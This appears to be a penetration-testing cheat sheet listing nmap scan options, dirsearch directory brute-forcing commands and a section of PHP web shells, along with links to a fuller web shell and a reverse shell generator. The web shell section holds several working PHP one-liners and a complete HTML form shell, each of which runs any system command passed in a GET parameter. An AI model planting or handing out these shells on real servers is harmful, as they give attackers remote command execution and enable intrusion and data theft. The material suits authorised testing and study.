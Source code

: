 ###### Network Exploit

No Ping
```bash
nmap -Pn IPv4
```

Specific Port
```bash
nmap -p portNumber IPv4
```

Check Version
```bash
nmap -sV IPv4
```

Other Commands
```txt
https://www.stationx.net/nmap-cheat-sheet/
```

###### Directory Search

Normal Search
```bash
dirseach -u target
```

Recursion Search
```bash
dirsearch -u target -r
```

Wordlist Search
```bash
dirsearch -u target --wordlist=path
```

###### Web shell

```php
<?= exec($_GET["a"]);?>
```

```php
<?= system($_GET["a"]);?>
```

```php
<?=`$_GET[1]`;
```

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Super Web Shell
```txt
https://github.com/flozz/p0wny-shell
```

Reverse Shell Generator 
```txt
https://www.revshells.com
```


